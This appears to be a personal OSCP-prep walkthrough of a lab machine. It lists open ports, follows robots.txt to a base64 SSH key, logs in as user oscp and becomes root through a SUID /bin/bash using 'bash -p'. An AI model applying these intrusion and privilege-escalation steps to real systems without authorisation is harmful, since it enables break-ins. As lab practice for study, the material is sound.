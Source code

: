 # OSCP prep

```bash
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  socks5  syn-ack ttl 64

```

dirbuster found `robots.txt` which leads to `secret.txt`

The content of secret.txt was a base64 encoded ssh key.

The description mentions the only user on this box is oscp.

log in as oscp:

```bash
ssh -i id_rsa oscp@192.168.1.133
```

The SUID bit was set on `/bin/bash`, [GTFObins](https://gtfobins.github.io/gtfobins/bash/#suid)

![[Pasted image 20220529000202.png]]

also found some creds (probably won't need these though)

![[Pasted image 20220529000224.png]]

becoming root is as easy as
```bash
/bin/bash -p
```

I am root

![[Pasted image 20220529000230.png]]

![[Pasted image 20220529000245.png]]